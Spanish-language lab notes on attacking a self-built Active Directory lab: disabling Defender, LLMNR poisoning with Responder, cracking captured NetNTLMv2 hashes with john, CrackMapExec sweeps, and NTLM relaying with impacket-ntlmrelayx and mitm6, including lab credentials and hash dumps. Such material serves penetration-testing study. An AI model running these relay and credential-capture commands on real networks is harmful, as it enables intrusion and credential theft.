





https://www.youtube.com/watch?v=-bNb4hwgkCo&t=1814s

## Configuración del entorno

**DC-Evilcorp - 192.168.15.145**
Dominio: evilcorp.local
Pass: `EvilCorp123$`

`Administrator:EvilCorp123$`

```c
Uninstall-WindowsFeature -name Windows-Defender 
```

Desactivar el cortafuegos.


**PC-fmol - 192.168.15.150**
`fmol:fmol`
`evilcorp\fm0l$33`

**PC-pobre - 192.168.15.151**
`pobre:pobre`
`empleado\P0bre$22`

**kali - 192.168.15.131

## Smb-relay

`cd /usr/share/responder`
`nano Responder.conf`

```bash
sudo python3 Responder.py -I eth0 -wd
```





Estos hashes no nos servirian para hacer *pass the hash* pero si podriamos intentar crackearlos.

```bash
nano hashes
Administrator::EVILCORP:6671e08d9b4f12c8:311FBD59904631D449FA0A6B96A13F84:0101000000000000006ACB5220E4DA011EF4232EEFCFBA8E00000000020008003500540037004B0001001E00570049004E002D005500490036003400460054005800350042005A00320004003400570049004E002D005500490036003400460054005800350042005A0032002E003500540037004B002E004C004F00430041004C00030014003500540037004B002E004C004F00430041004C00050014003500540037004B002E004C004F00430041004C0007000800006ACB5220E4DA010600040002000000080030003000000000000000000000000030000033413BE4F442E657126FBB3AB042AF1D9C0923126367BDB669C176C69893ACDF0A001000000000000000000000000000000000000900160063006900660073002F00700072007500650062006100000000000000000000000000
fmol::EVILCORP:d78b479bf6199858:176F43669AE270415D85458987437AC2:0101000000000000F882FE2342E4DA01FD34AEE61BBDFB2400000000020008003500540037004B0001001E00570049004E002D005500490036003400460054005800350042005A003200040014003500540037004B002E004C004F00430041004C0003003400570049004E002D005500490036003400460054005800350042005A0032002E003500540037004B002E004C004F00430041004C00050014003500540037004B002E004C004F00430041004C0008003000300000000000000000000000002000006BF44EA5798170252CFD059FDF094D0681DCECE2F76DFA28A036D4867C8B7EFC0A0010000000000000000000000000000000
pobre::EVILCORP:bda58cdadc949cd1:2F0B1181800AED0CD6CE9318DF8D669E:01010000000000006256780342E4DA01DCA2C9FC8299779400000000020008003500540037004B0001001E00570049004E002D005500490036003400460054005800350042005A003200040014003500540037004B002E004C004F00430041004C0003003400570049004E002D005500490036003400460054005800350042005A0032002E003500540037004B002E004C004F00430041004C00050014003500540037004B002E004C004F00430041004C0008003000300000000000000000000000002000008D54C6C12F03232076DFA39763E827F94952560935BB824E58366027A850368F0A001000000000000000000000000000000000000900300048005400540050002F0073007200760069006D006100670069006E006100720069006F002E006C006F00630061006C000000000000000000
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```


## CrackMapExec

Desactivamos el cortafuegos y el antivirus en todos los equipos Windows.

```bash
crackmapexec smb 192.168.15.0/24
```




## NTLM-relay: usuario de dominio y administrador local



```bash
crackmapexec smb 192.168.15.0/24 -u 'pobre' -p 'P0bre$22'
```




```bash
sudo nmap --script=smb2-security-mode -p445 192.168.15.151

Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-02 00:29 EDT
Nmap scan report for 192.168.15.151
Host is up (0.00028s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:F2:C7:EC (VMware)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
```

Con un usuario de dominio como administrador local *(Pwn3d!)* podemos hacer varias cosas como, por ejemplo, dumpear la SAM.

```bash
nano Responder.conf
.............
SMB = Off
.............
HTTP = Off
.............
```

```bash
sudo python3 Responder.py -I eth0 -wd
```

```bash
nano targets.txt
192.168.15.151
```

```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```

https://warroom.rsmus.com/how-to-perform-ntlm-relay/
https://hackmd.io/@Mecanico/r1Tjh851c
https://www.thehacker.recipes/a-d/movement/ntlm/relay
https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022


```bash
sudo python3 Responder.py -I eth0 -wd
```


```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "command"
```


## NTLM-relay ipv6

```bash
sudo mimt6 -d evilcorp.local
```

```bash
impacket-ntlmrelayx -wh 192.168.15.131 -t smb://192.168.15.151 -smb2support -socks -debug 
```

